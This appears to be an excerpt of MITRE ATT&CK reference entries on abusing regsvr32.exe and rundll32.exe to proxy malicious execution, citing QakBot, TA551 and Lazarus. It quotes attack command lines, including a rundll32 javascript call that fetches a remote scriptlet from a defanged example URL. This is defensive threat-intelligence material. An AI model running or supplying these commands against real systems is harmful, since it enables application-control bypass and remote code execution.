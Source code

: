 Description:

Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. The Regsvr32.exe binary may also be signed by Microsoft. Malicious usage of Regsvr32.exe may avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of allowlists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe can also be used to specifically bypass application control using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. This variation of the technique is often referred to as a "Squiblydoo" and has been used in campaigns targeting governments. Regsvr32.exe can also be leveraged to register a COM Object used to establish persistence via Component Object Model Hijacking.

Procedures:

- [S1018] Saint Bot: Saint Bot has used `regsvr32` to execute scripts.
- [S0650] QakBot: QakBot can use Regsvr32 to execute malicious DLLs.
- [G0127] TA551: TA551 has used regsvr32.exe to load malicious DLLs.

### T1218.011 - System Binary Proxy Execution: Rundll32

Description:

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. Shared Modules), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: rundll32.exe {DLLname, DLLfunction}). Rundll32.exe can also be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions Control_RunDLL and Control_RunDLLAsUser. Double-clicking a .cpl file also causes rundll32.exe to execute. For example, ClickOnce can be proxied through Rundll32.exe. Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" This behavior has been seen used by malware such as Poweliks. Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command rundll32.exe ExampleDLL.dll, ExampleFunction, rundll32.exe would first attempt to execute ExampleFunctionW, or failing that ExampleFunctionA, before loading ExampleFunction). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending W and/or A to harmless ones. DLL functions can also be exported and executed by an ordinal number (ex: rundll32.exe file.dll,#1). Additionally, adversaries may use Masquerading techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.

Procedures:

- [C0022] Operation Dream Job: During Operation Dream Job, Lazarus Group executed malware with `C:\\windows\system32\rundll32.exe "C:\ProgramData\ThumbNail\thumbnail.db"`, `CtrlPanel S-6-81-3811-75432205-060098-6872 0 0 905`.
- [S0260] InvisiMole: InvisiMole has used rundll32.exe for execution.
- [C0021] C0021: During C0021, the threat actors used `rundll32.exe` to execute the Cobalt Strike Beacon loader DLL.
